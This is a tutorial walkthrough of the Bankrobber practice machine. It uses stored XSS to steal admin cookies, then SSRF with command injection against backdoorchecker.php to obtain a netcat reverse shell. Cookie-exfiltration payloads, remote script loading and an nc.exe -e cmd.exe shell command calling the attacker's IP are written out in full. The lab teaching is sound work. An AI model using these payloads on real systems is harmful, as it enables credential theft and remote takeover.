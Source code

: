 # Exercise: Discovering XSS on Bankrobber

An nmap scan reveals that Bankrobber is a Windows box and has HTTP running on ports 80 and 443, SMB on port 445 and MariaDB on port 3306:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo nmap -v -sC -sV -T4 --min-rate 1000 -p- bankrobber.htb \
    -oA nmap/full-tcp
<SNIP>
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
443/tcp open ssl/http Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after: 2019-11-08T23:48:47
| MD5: a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_ http/1.1
445/tcp open microsoft-ds Microsoft Windows 7 - 10 microsoft-ds 
    (workgroup: WORKGROUP)
3306/tcp open mysql MariaDB (unauthorized)
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

MariaDB is very similar to MySQL and uses the same SQL syntax. After navigating to the URL [http://bankrobber.htb](http://bankrobber.htb) we find a Bitcoin trading platform called E-coin.

![Home page of Bankrobber](<../.gitbook/assets/0 (1) (2).png>)

There is a login function and below that a place to register new accounts. If we register an account with username 'john' and password 'password' and then login, we are taken to a page that allows us to transfer E-coin to (presumably) another user using the ID of the user.

![Transfer E-coin function of Bankrobber](<../.gitbook/assets/1 (3).png>)

If we right click on the page and select Inspect Element to go into the developer tools of the browser, we can navigate to the Storage tab and look at the Cookies that have been set. The cookies are:

```
id: 3
password: cGFzc3dvcmQ%3D
username: am9obg%3D%3D
```

The username and password cookies are simply the Base64 encoded versions of "john" and "password" which you can verify for yourself. We can see that the id of the user is 3 and so it suggests that there are at least 2 other users (1 and 2) on the system.

If we submit a transaction by entering 100 as the amount, 2 as the id and a comment of "test", a popup reports "Transfer on hold. An admin will review it within a minute. After that he will decide whether the transaction will be dropped or not.".

This suggests that a person will be reviewing the transfer and so anything we put in the comment field is likely to be rendered when the admin views it. This makes the comment field a candidate for cross-site scripting. To test this, let us start a Python web server on our box:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)
```

We can then create a new transaction and put the following HTML into the comment field:

```javascript
<img src=http://10.10.14.29/img.jpg />
```

This eventually hits the Python web server, and we get the request:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.70.254 - - [25/Feb/2021 10:38:08] code 404, message File not found
10.129.70.254 - - [25/Feb/2021 10:38:08] "GET /img.jpg HTTP/1.1" 404 -
```

So we know that XSS works. The first thing we can do is to steal the administrator's cookies. We know that the cookies used on the site simply consist of the username and password Base64 encoded. To get them we can use the JavaScript function document.cookie() in the following way:

```javascript
<img src=x onerror=this.src="http://10.10.14.135/?c="+document.cookie />
```

This returns the base64 for both username and password to be "admin" and "Hopelessromantic":

```
10.129.70.254 - - <SNIP> "GET /?c=username=YWRtaW4%3D;
    %20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1 HTTP/1.1" 200 -
```

After doing the SQL Injection to read source code (see later in the SQL injection section), you discover a php file called backdoorchecker.php that will execute a "dir" command supplied as POST parameter. However, the check only tests if the first three characters are equal to "dir". By adding a "|" after "dir" you can add any other Windows command. The file backdoorchecker.php also checks that the request came from the same machine checking that the "REMOTE\_ADDR" is equal to "::1" the IPv6 localhost address.

To exploit backdoorchecker.php, you can use the XSS to do an SSRF attack. To validate that this will work, you will write a JavaScript file hosted from our machine and test a "ping" command. Writing a script attack.js as follows:

```javascript
var xhr = new XMLHttpRequest();
var url = "http://localhost/admin/backdoorchecker.php";
var params = "cmd=dir | ping -n 5 10.10.14.29";
xhr.open("POST", url);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.withCredentials=true;
xhr.send(params);
```

To check that the ping is being sent, you can start tcpdump to collect the ping packets which are of the type ICMP:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

To initiate the XSS you can use the script tag instead of the img tag. This will fetch and execute the script attack.js:

```javascript
<script src="http://10.10.14.135/attack.js"></script>
```

Once the script is fetched from the server, you should see tcpdump reporting the pings being sent to our box:

```bash
12:26:08.465546 IP bankrobber.htb > 10.10.14.135: ICMP echo request, 
    id 1, seq 1, length 40
12:26:08.465571 IP 10.10.14.135 > bankrobber.htb: ICMP echo reply, 
    id 1, seq 1, length 40
12:26:08.465586 IP bankrobber.htb > 10.10.14.135: ICMP echo request, 
    id 1, seq 2, length 40
12:26:08.465592 IP 10.10.14.135 > bankrobber.htb: ICMP echo reply, 
    id 1, seq 2, length 40
<SNIP>
```

We haven't dealt with exploitation and how to get access to an interactive session on a remote box, however we will quickly get a "reverse shell" on the Bankrobber box using Netcat. Netcat for windows can be downloaded from [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/). Take a copy of the nc64.exe and rename as nc.exe in your working directory.

As you are targeting a Windows box, you can provide access to netcat via SMB using a tool smbserver.py which is part of the Impacket tools.

{% hint style="info" %}
To install Impacket in the /opt directory, you can use:

`git clone https://github.com/SecureAuthCorp/impacket.git`
{% endhint %}

You can then run smbserver.py directly from /opt/impacket/examples/smbserver.py

([https://github.com/SecureAuthCorp/impacket\\](https://github.com/SecureAuthCorp/impacket/)). To share a directory using smbserver you use the syntax:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo python3 /opt/impacket/examples/smbserver.py share $(pwd) -smb2support
```

We can then modify attack.js to the following:

```javascript
var xhr = new XMLHttpRequest();
var url = "http://localhost/admin/backdoorchecker.php";
var params = "cmd=dir | \\\\10.10.14.135\\share\\nc.exe 10.10.14.135" +
             " 6001 -e cmd.exe";
xhr.open("POST", url);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.withCredentials=true;
xhr.send(params);
```

We would start the webserver to serve the JavaScript file and netcat listener to receive the incoming connection for the reverse shell:

```bash
┌─[oztechmuse@parrot]─[~/boxes/Bankrobber]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
connect to [10.10.14.135] from (UNKNOWN) [10.129.103.158] 49736
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. Alle rechten voorbehouden.
C:\xampp\htdocs\admin>whoami
whoami
bankrobber\cortin
```

This is not the end of the box, we have a reverse shell as the user cortin but the next part is privilege escalation which involves a buffer overflow, something we will deal with in Chapter 6.
